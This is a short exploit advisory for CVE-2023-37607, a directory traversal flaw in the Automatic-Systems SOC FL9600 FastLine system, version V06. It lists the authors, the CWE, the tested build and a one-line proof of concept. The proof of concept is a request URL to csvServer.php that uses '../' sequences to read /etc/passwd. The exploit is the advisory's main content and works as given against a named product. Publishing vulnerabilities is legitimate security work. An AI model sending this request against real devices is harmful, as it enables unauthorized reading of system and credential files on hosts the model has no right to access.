

# Automatic-Systems SOC FL9600 FastLine - Directory Transversal 

Date: 12/9/2023\
Remote: yes\
Local: No\
Exploit Author: Mike Jankowski-Lorek, Marcin Kozlowski, Paula Januszkiewicz and CQURE Team
CVE : CVE-2023-37607\
CWE: CWE-22\
Vendor Homepage: http://automatic-systems.com\
Version: Automatic-Systems SOC FL9600 FastLine version:V06\
Tested on: VersionSVN = 28569_8a99acbd8d7ea09a57d5fbcb435da5427b3f6b8a, DateCompil = 2019-11-20 11:22:18

## POC
Request URL: ```http://<host>/csvServer.php?getList=1&dir=../../../../etc/&file=passwd```


